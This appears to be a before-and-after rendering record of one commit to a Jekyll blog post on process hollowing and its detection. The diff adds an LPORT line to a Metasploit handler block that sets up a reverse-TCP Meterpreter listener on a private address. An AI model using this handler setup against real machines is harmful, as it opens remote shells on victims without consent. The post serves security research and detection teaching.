

Before and after one commit to 3gstudent/backup-3gstudent.github.io, a Jekyll site: the page built from _posts/2017-11-30-傀儡进程的实现与检测.md, in a window 1280 px wide and 900 px high, scrolled down 4361 px, cut to the strip 155-900 px from the top of the window. Shown: the whole strip, without its empty margins (248-1034 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update 2017-11-30-傀儡进程的实现与检测.md

````diff
--- a/_posts/2017-11-30-傀儡进程的实现与检测.md
+++ b/_posts/2017-11-30-傀儡进程的实现与检测.md
@@ -195,6 +195,7 @@ server：
 use exploit/multi/handler
 set payload windows/meterpreter/reverse_tcp
 set LHOST 192.168.81.192
+set LPORT 4444
 exploit
 ```
 
````
